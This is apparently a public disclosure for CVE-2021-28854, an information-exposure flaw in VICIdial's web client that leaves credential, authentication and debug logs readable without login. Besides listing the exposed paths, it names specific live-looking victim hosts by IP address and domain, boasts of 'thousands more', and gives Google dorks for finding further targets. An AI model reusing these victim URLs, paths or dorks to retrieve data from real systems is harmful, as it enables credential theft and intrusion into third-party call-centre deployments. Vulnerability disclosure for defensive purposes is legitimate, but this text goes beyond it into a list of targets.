 # VICIdial - CVE-2021-28854
## Info/Impact
VICIdial's Web Client contains many sensitive files that can be access from the client side. These files contain mysqli logs, auth logs, debug information, successful and unsuccessful login attempts with their corresponding IP's, User-Agents, credentials and much more. This information can be leveraged by an attacker to gain further access to VICIdial systems. This vulnerability affects all versions as of 20/05/21

## PoC (Proof of Concept)

Potential Sensative files/endpoints:

```
/vicidial/project_auth_entries.txt

/vicidial/agent_reports/AGENT_DAY_<YEAR>-<MONTH>-<DAY>.TXT

/vicidial/agent_reports/

/vicidial/closer_SQL_updates.txt

/agc/vicidial_mysqli_errors.txt

/agc/vicidial_debug.txt

/agc/vicidial_auth_entries.txt
```

## Example URL's:
```
http://172.104.24.101/vicidial/project_auth_entries.txt

http://172.104.24.101/vicidial/agent_reports/

http://172.104.24.101/agc/vicidial_mysqli_errors.txt

http://172.104.24.101/agc/vicidial_debug.txt

http://172.104.24.101/agc/vicidial_auth_entries.txt
```

------------------------------------------------------

```
http://35.156.102.118/vicidial/project_auth_entries.txt

http://35.156.102.118/vicidial/agent_reports/

http://35.156.102.118/vicidial/closer_SQL_updates.txt

http://35.156.102.118/agc/vicidial_mysqli_errors.txt

http://35.156.102.118/agc/vicidial_debug.txt

http://35.156.102.118/agc/vicidial_auth_entries.txt
```

------------------------------------------------------

```
https://callsrevenue.com/vicidial/project_auth_entries.txt

https://callsrevenue.com/agc/vicidial_mysqli_errors.txt

https://callsrevenue.com/agc/vicidial_debug.txt

https://callsrevenue.com/agc/vicidial_auth_entries.txt
```

------------------------------------------------------

```
http://69.60.110.115/vicidial/agent_reports/

http://69.60.110.115/vicidial/closer_SQL_updates.txt

http://69.60.110.115/agc/vicidial_mysqli_errors.txt

http://69.60.110.115/agc/vicidial_debug.txt
```

+ Thousands More! :)

## Google Dorks to help find more!

```
"Agent web client:  Phone Login"

"Index of /vicidial"

inurl:/vicidial/welcome.php

intitle:Agent Timeclock

"Agent web client: Campaign Login"
```
